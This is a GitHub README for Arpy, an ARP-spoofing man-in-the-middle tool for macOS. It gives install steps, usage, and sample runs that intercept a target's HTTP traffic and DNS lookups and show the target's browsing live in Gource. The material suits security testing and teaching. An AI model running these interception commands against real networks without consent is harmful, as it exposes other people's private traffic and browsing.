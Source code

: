 ![alt text][logo]

[logo]: https://github.com/ivanvza/arpy/blob/master/images/logo.png "Logo"
# Arpy
Arpy is an easy-to-use [ARP](https://tools.ietf.org/html/rfc826) spoofing MiTM tool for Mac.
It provides 3 targeted functions:
* Packet Sniffing
* Visited Domains
* Visited Domains with [Gource](https://code.google.com/p/gource/)

###### Each function will be explained below.

### Tested OS (to date)
* Darwin 14.3.0 Darwin Kernel Version 14.3.0 (Mac OS X)

## Requirements
* Python 2.7
* Gource
* Scapy

## Installation
#### Gource
```
brew install gource
```
#### Scapy
```
pip install scapy
```

## Sample Commands
```
ivanvza:~/ > arpy
    _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
         - @viljoenivan

Usage: arpy -t <Target IP> -g <Gateway IP> -i <Interface>

ARP MiTM Tool

Options:
  -h, --help            show this help message and exit
  -t TARGET, --target=TARGET
                        The Target IP
  -g GATEWAY, --gateway=GATEWAY
                        The Gateway
  -i INTERFACE, --interface=INTERFACE
                        Interface to use
  --sniff               Sniff all passing data
  --sniff-dns           Sniff only searched domains
  --sniff-dns-gource    Output target's DNS searches in gource format
```

## Packet Sniff
This is the packet sniffer, it allows you to see your target's traffic.
```
ivanvza:~/ > sudo arpy -t 192.168.1.4 -g 192.168.1.1 -i en0 --sniff
    _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
         - @viljoenivan


  [Info] Starting Sniffer...

[Info] Enabling IP Forwarding...
[Info] Done...

[Info] Found the following (IP layer): 192.168.1.4 -> 216.58.223.10
GET /ajax/libs/jquery/1.7.1/jquery.min.js HTTP/1.1
Host: ajax.googleapis.com
Connection: keep-alive
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.152 Safari/537.36
X-Client-Data: CKW1yQEIjrbJAQimtskBCKm2yQEIxLbJAQjriMoBCLWJygEIs5TKAQ==
Referer: http://stackoverflow.com/
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-US,en;q=0.8,af;q=0.6

[Info] Found the following (IP layer): 216.58.223.10 -> 192.168.1.4
HTTP/1.1 200 OK
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Type: text/javascript; charset=UTF-8
Last-Modified: Mon, 02 Apr 2012 18:24:28 GMT
Date: Mon, 18 May 2015 17:26:10 GMT
Expires: Tue, 17 May 2016 17:26:10 GMT
Access-Control-Allow-Origin: *
Timing-Allow-Origin: *
X-Content-Type-Options: nosniff
Server: sffe
Content-Length: 33186
X-XSS-Protection: 1; mode=block
Cache-Control: public, max-age=31536000
Age: 79137
Alternate-Protocol: 80:quic,p=0

�Ľ�~�F�.�?��ʫ�!J�ҷ
```
## DNS Sniff
This function allows you to see domain names that your target is currently requesting.
```
ivanvza:~/ > sudo arpy -t 192.168.1.4 -g 192.168.1.1 -i en0 --sniff-dns
    _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
         - @viljoenivan


  [Info] Starting DNS Sniffer...

[Info] Enabling IP Forwarding...
[Info] Done...
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: www.youtube.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: s2.googleusercontent.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: s.ytimg.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: fonts.gstatic.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: yt3.ggpht.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: i.ytimg.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing.google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing-cache.google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing-cache.google.com.
```
## DNS Sniff With Gource
This function is more or less the same as the above, however it provides the functionality to pass it through Gource to get a live feed of what your target is viewing.
```
ivanvza:~/ > sudo arpy -t 192.168.1.4 -g 192.168.1.1 -i en0 --sniff-dns-gource
WARNING: No route found for IPv6 destination :: (no default route?)
[INFO] For a live gource feed run this command in parallel with this one:

tail -f parsed_domain_gource | tee /dev/stderr | gource -log-format custom -a 1 --file-idle-time 0 -
```
### Sample Gource footage
![alt text][gourve_live_footage]

[gourve_live_footage]: https://github.com/ivanvza/arpy/blob/master/images/arpy_gource.gif "Live Gource Footage"

### Contact
@viljoenivan

### To-do
* Look at adding sslstrip.
* Filter sniff to a certain domain/IP.
* Port it too kali.
